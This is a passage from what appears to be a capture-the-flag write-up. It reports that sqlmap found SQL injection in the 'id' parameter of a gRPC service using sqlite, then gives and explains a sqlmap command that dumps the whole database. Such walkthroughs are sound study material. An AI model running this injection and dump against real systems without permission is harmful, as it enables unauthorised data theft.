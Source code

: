 ![Untitled 10.png](PC/assets/Untitled%2010.png)

From the output of `sqlmap`, we can see that the `id` parameter is vulnerable to SQL Injection and from the output we can see that the database used by the gRPC service is `sqlite`.

Now we can dump the database using the following command:

```
sqlmap -r request --flush-session --threads 10 --batch -p id --level 3 --risk 3 --dump
// Here:
// --flush-session : optional command, Flush session files for current target
// --threads : to mention the number of threads to be utilized
// --batch : Never ask for user input, use the default behavior
// --level : Level of tests to perform (1-5, default 1) 
// --risk : Risk of tests to perform (1-3, default 1)
// -p : to specify the Testable parameter(s)
// --dump : Dump DBMS database table entries
```
